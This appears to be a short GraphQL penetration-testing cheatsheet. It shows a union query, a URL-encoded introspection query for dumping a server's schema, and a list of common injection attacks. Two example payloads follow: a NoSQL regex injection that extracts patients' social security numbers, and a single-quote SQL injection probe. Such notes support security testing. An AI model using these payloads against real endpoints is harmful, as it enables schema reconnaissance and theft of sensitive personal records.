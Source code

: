 ###Example Union

`union SearchResult = Human | Droid | Starship`

```
 search(text: "an") {
    __typename
    ... on Human {
      name
      height
    }
    ... on Droid {
      name
      primaryFunction
    }
    ... on Starship {
      name
      length
    }
  }
}

```

##GraphQL Introspection

`fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}` 

Basically tells the graphql to spit its schema.

##GraphQL cheatsheet

### Common Attacks

NoSQL, SQL, OS Command Injection, SSRF, CRLF

###Examples

```
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}

{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}

```

